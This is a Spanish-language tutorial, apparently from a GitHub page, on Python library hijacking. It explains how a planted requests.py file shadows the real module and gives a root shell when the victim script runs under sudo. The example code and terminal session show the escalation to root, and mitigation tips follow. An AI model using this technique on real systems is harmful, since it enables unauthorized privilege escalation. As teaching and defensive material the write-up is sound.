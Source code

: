 Funcionamiento del Ataque

   1- **Orden de Búsqueda de Módulos**:


        Python busca primero en el directorio actual desde donde se ejecuta el script. Si encuentra un archivo 
        con el mismo nombre que el módulo que se intenta importar, lo cargará en lugar del módulo original.




  2- **Creación de un Módulo Malicioso**:


        Al crear un archivo con el mismo nombre que un módulo legítimo (por ejemplo, requests.py), se puede 
        inyectar código malicioso que se ejecutará cuando el script intente importar ese módulo.




3- **Ejecución del Código Malicioso**:


        Si el script se ejecuta con privilegios elevados (por ejemplo, usando sudo), el código malicioso se 
        ejecutará con esos privilegios, lo que puede comprometer la seguridad del sistema.

        
**Ejemplo**

iker@181f77f462ad:~$ cat geo_ip.py 
import requests; 
ip = input('Introduce la direccion IP que quieras geolocalizar: ')
respuesta = requests.get(f'http://ip-api.com/json/{ip}')
data = respuesta.json()
print(data)

nano requests.py

import os
os.system('/bin/bash')

iker@181f77f462ad:~$ sudo /usr/bin/python3 /home/iker/geo_ip.py
root@181f77f462ad:/home/iker# whoami
root
root@181f77f462ad:/home/iker# 


**Mitigación**

Para mitigar este tipo de ataques, debemos considerar las siguientes prácticas:


    Evitar el uso de sudo para ejecutar scripts de Python: Siempre que sea posible, evita ejecutar scripts con privilegios elevados.

    Validar el entorno de ejecución: Asegúrate de que el entorno de ejecución no contenga archivos maliciosos con nombres de módulos comunes.

    Usar entornos virtuales: Los entornos virtuales pueden ayudar a aislar las dependencias y reducir el riesgo de conflictos de nombres de módulos.

    Revisar el código fuente: Antes de ejecutar scripts de terceros, revisa el código para detectar posibles importaciones de módulos maliciosos.






